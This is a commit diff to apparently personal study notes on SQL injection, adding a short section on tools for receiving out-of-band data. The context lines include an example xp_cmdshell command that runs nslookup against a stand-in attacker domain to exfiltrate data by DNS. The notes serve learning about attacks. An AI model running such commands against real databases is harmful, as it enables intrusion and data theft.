

Before and after one commit to JS0ff/cybersecurity_notes, a Markdown page: sql_injections_intro/README.md, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
take notes on listeners

```diff
--- a/sql_injections_intro/README.md
+++ b/sql_injections_intro/README.md
@@ -275,3 +275,7 @@ Uses LOAD_FILE() to trigger DNS lookup.
 `xp_cmdshell` => triggers command running, turned off by default
 
 `EXEC xp_cmdshell 'nslookup data.attacker.com';`
+
+# Receiving the Data
+
+Burp Collaborator, Interactsh, python dnslib custom server, bare-bones HTTP Server.
```
